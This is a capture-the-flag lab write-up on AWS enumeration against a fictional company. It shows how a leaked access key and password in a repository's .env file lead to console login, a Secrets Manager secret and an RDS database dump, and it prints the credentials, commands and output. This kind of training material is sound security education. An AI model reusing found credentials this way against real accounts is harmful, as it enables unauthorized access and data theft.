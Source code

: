 ```yaml
---
description: >-
  You will learn how to enumerate the Account ID with the Access key you found during your assessment and later on we will address RDS database enumeration
---
```


# Initial Entry

As an Initial Entry point we have been provided with the following details 

  

|     |     |
| --- | --- |
| Type | Value |
| Github | [https://github.com/huge-logistics/aws-react-app](https://github.com/huge-logistics/aws-react-app)<br> |

  

The scenario here is ever-shifting world of logistics, Huge Logistics has emerged as an undisputed global leader. Yet, every Goliath has its vulnerabilities. Whispered rumors in cybersecurity circles suggest that amidst the vast digital sprawl of Huge Logistics, there might lie unnoticed weaknesses. As a seasoned security consultant, your mission is set: Navigate the labyrinth of Huge Logistics' GitHub repositories, looking for the smallest chink in their armor. Dive deep, analyze thoroughly, and leave no stone unturned. Can you spot what others have missed?

  

## Solution 

In the following repository, where they have been provided with `.env` file and inspecting that we found two interesting things which will be useful for us one is the AWS access key which is `AKIAWHEOTHRFVXYV44WP`  

  

![](../Files/lev1.png) 

  

With the aws cli module, we can retrieve the account ID of this access key with the following command `aws sts get-access-key-info --access-key <access key>` 

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/.aws$ aws sts get-access-key-info --access-key-id AKIAWHEOTHRFVXYV44WP --profile nithissh
{
    "Account": "427648302155"
}
```

  

In the same `.env`  file we also have database credentials with username as `jose`  and password as `DevOps0001!` and let’s do one thing like credential stuffing attack on AWS login console.. We know the AWS account ID right so through IAM login, fill up the account ID as `427648302155` later the username and password as `jose` and `DevOps0001!` 

  

![](../Files/lev2.png) 

  

Once we click on login and suprisingly the method worked out and logged in as a IAM user called `jose` and exploring the console they used `AWS secrets manager` may be they would have used recently 

  

![](../Files/lev3.png) 
  

There are 4 secrets being stored over there and out of which two are interesting one is [employee-database-admin](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) and [employee-database](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) 

  

Accessing the [`employee-database-admin`](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) is restricted here and particularly for this account

  

![](../Files/lev4.png) 
  

But we can able to access [`employee-database`](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) and retrieve the secrets like DB name, DB username and password.. Also the hostname 

  

![](../Files/lev5.png)  

  

With the following details and we connect it through `mysql-client` 

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/.aws$ mysql -u reports -h employees.cwqkzlyzmm5z.us-east-1.rds.amazonaws.com -
D employees -p
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 496468
Server version: 5.5.5-10.6.10-MariaDB managed by https://aws.amazon.com/rds/

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

  

We can list the tables using `show tables;` query and found that `flag` row exists which is obviously our objective to capture 

  

```sql
mysql> show tables;
+---------------------+
| Tables_in_employees |
+---------------------+
| countries           |
| departments         |
| dependents          |
| employees           |
| flag                |
| jobs                |
| locations           |
| regions             |
+---------------------+
8 rows in set (0.25 sec)
```

  

Now finally, you can the get flag through `SELECT * FROM flag`  and it will dump out our flag

  

```sql
mysql> SELECT * FROM flag;
+----------------------------------+
| flag                             |
+----------------------------------+
| d0e4b22365ad230c53c4ffc269dc0202 |
+----------------------------------+
1 row in set (0.24 sec)
```